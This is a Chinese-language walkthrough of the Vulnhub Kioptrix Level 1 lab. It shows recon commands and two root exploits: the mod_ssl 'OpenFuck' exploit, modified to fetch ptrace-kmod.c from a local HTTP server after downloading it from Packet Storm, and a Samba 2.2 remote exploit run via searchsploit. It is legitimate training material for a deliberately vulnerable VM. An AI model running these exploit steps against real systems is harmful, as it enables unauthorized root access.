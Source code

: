 # Vulnhub Kioptix Level 1


# Vulnhub-kioptix-Level-1

### 基本信息

kali:192.168.110.10

靶机:192.168.110.12

### 一、信息收集

```
arp-scan -l
```

![](/vulnhub-kioptix-Level-1/01.JPG)

```
nmap -sV 192.168.110.12
```

`Apache/1.3.20、mod_ssl/2.8.4、OpenSSL/0.9.6b`

![](/vulnhub-kioptix-Level-1/02.JPG)

```
nikto -host http://192.168.110.12/
```

![](/vulnhub-kioptix-Level-1/03.JPG)

扫到有CVE-2002-0082

443端口使用了mod_ssl服务为2.8.4

### 二、漏洞利用

### 漏洞利用1

![](/vulnhub-kioptix-Level-1/04.JPG)

查询到有exp

![](/vulnhub-kioptix-Level-1/05.JPG)

编译下

```
gcc -o exp 47080.c -lcrypto
```

![](/vulnhub-kioptix-Level-1/06.JPG)

![](/vulnhub-kioptix-Level-1/07.JPG)

```
./exp 0x6b 192.168.110.12 443
```

![](/vulnhub-kioptix-Level-1/08.JPG)

这边是后续的exploit没有下载成功，直接在shell里面尝试从链接里面下载试下

```
curl -O https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
python3 -m http.server 8080
```

```
nano 47080.c
#修改http  改成本地地址
```

![](/vulnhub-kioptix-Level-1/09.JPG)

保存后重新编译运行

![](/vulnhub-kioptix-Level-1/10.JPG)

### 漏洞利用2

前面发现了139端口

用msf扫描一下

![](/vulnhub-kioptix-Level-1/11.JPG)

![](/vulnhub-kioptix-Level-1/12.JPG)

版本是2.2.1a

`searchsploit samba 2.2`找下有无可以利用的漏洞

![](/vulnhub-kioptix-Level-1/13.JPG)

`searchsploit -p 10.c` 寻找路径

![](/vulnhub-kioptix-Level-1/14.JPG)

`cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./`

![](/vulnhub-kioptix-Level-1/15.JPG)

编译一下

![](/vulnhub-kioptix-Level-1/16.JPG)

`./samba -b 0 192.168.110.12`

![](/vulnhub-kioptix-Level-1/17.JPG)

已拿到root权限
